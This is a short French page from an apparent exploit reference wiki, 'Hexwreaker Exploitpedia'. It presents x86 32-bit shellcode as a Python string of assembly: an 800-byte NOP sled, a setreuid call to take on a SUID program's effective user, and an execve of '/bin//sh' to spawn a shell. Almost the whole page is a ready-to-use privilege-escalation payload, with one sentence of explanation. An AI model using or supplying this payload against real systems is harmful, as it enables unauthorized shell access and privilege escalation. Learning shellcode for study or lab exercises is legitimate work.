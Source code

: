 ```yaml
---
layout: default
title: Hexwreaker Expoitpedia
---
```

#### [ExploitPedia](/pages/exploitpedia/exploitpedia)

    Cible : x86 32 bits

Le shellcode suivant permet d'élever ses privilèges vers l'utilisateurs effectif (SUID) puis d'appeler un terminal avec **execve("/bin//sh")**.

```python
asm_code  = "nop ; "*800
asm_code += """
    xor eax, eax
    xor ebx, ebx
    xor ecx, ecx
    mov bx, 0x4c1
    mov cx, 0x4c1
    mov al, 0x46
    int 0x80
    xor eax, eax ;  # eax = 0
    push eax ; 
    push 0x68732f2f ; 
    push 0x6e69622f ; 
    mov ebx, esp ;   # ebx = &"/bin//sh"
    push eax ; 
    mov edx, esp ;
    push ebx ; 
    mov ecx, esp ;   # ecx = &args
    mov al, 0xb ;   # eax = 0xb
    int 0x80
"""
```





